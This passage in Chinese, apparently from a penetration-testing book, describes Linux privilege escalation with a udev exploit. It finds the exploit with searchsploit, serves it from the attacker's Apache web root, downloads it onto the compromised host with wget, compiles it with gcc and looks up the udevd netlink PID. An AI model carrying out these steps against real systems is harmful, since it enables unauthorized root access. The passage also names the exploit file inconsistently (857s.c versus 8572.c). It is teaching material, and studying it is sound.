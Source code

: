 ```
searchsploit udev
```

此命令生成以下输出：

![](img/961435be-2b38-4812-8b1e-6fb23e698d2a.png)

接下来，我们需要将此漏洞从攻击机器转移到受损机器。我们可以使用受损机器的`wget`命令来执行此操作。首先，我们将漏洞转移到我们机器上的文件夹中，受损机器将在其中查找该文件。通过键入以下命令，使用命令行复制该漏洞：

```
cp /usr/share/exploitdb/platforms/linux/local/857s.c /var/www/html
```

接下来，通过键入以下内容确保`apache2`服务器正在运行：

```
service apache2 start
```

我们可以使用受损机器上的`wget`命令从攻击机器下载该漏洞，该命令在攻击机器的`/var/www/html folder`中查找该文件：

![](img/47166511-3a04-48ac-9b53-244b474e98ee.png)

成功下载该漏洞后，我们使用以下`gcc`命令在受害者机器上编译该漏洞：

```
gcc 8572.c -o 8572
```

现在我们的漏洞已经准备好使用了。从源代码中，我们发现该漏洞需要`udevd netlink`套接字的**进程标识符**（**PID**作为参数。我们可以通过发出以下命令获得此值：

```
cat /proc/net/netlink
```

以下屏幕截图显示了此命令的结果：

![](img/c6cf2b1a-be4f-45fd-af44-e5ebfaee662e.png)

